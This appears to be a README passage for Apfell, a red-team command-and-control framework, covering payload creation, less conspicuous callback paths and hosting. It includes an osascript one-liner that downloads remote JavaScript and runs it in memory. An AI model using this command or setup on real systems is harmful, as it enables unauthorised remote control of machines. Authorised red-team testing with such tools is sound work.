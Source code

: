 - If you'd like to create a new user, simply click to register  
![alt text](https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/readme_register.png)  
 
- Once you select an operation, you need to create a payload. Head over to `Create Components` and select `Create Base Payload`  
![alt text](https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/readme_create_components.png)  

- Here you'll select which c2 profile you want to use (I selected `default` which calls back directly to the apfell server and uses the RESTful endpoints). If you select anything other than the default payload, you will need to go to the `c2 profiles management` page and `start` that profile before your callback will work. Fill out any required parameters. Then select the payload type you want to use. Give the location of where you want the created payload to be saved (`test.js` in my case) and optionally give the payload a tag. This tag will be used to pre-populate the `description` field when a callback initially checks in using this payload. If you don't put in one, I'll use a generic description for you. Lastly, select which commands you wanted included by default in this payload. You can select as many or as few as you like. I selected to have the `load`, `exit`, and `shell` features initially, and I can load in new commands as I need them. When you hit submit you'll either see an error or a message like:  
![alt text](https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/readme_create_payload.png)  

- What if you want to do something else for your c2 profile? Maybe you don't want your callback posting to `/api/v1.0/callbacks/5/nextTask` since that's a bit on the nose. Well, I've started to implement ways for you to customize this. In the c2 management page you can create new c2 profiles, view all of the files that are currently loaded into the system, download those files, or delete them:
![alt text](https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/readme_c2_management.png)

- Ok, now you have a payload, you need to host it somewhere. You can host it on your infrastructure, or for testing, I can host it with a simple python http web server for you  
![alt text](https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/readme_hosted_files.png)  
![alt text](https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/readme_host_payload.png)  

- Next, you'll need to actually execute the payload. That's your business, but I do have a one-liner you can execute to run the apfell-jxa payload in memory if you want  
![alt text](https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/readme_execute_payload.png)  
```bash
osascript -l JavaScript -e "eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('HTTP://192.168.205.151:8080/test.js')),$.NSUTF8StringEncoding)));" 
```
- If you go to the `Operational Views` and select `Active Callbacks` you'll now see your callback check in. You can click interact and start entering commands to interact with your payload  
![alt text](https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/readme_interact.png)  

- If you're unsure what a command does, you can either type `help {command_name}` to see a brief help syntax or you can go to `api`->`apfell-jxa help` for descriptions and more thorough help.
![alt text](https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/readme_help.png)

- If you're still weary about the command, you can always go to `Manage Operations` -> `Payload Management` and select the `Edit` button under the `Edit Commands` columnn for a given payload type (by default it's just the apfell-jxa payload). Here is where you can select any of the commands and see/edit their actual code and parameters.
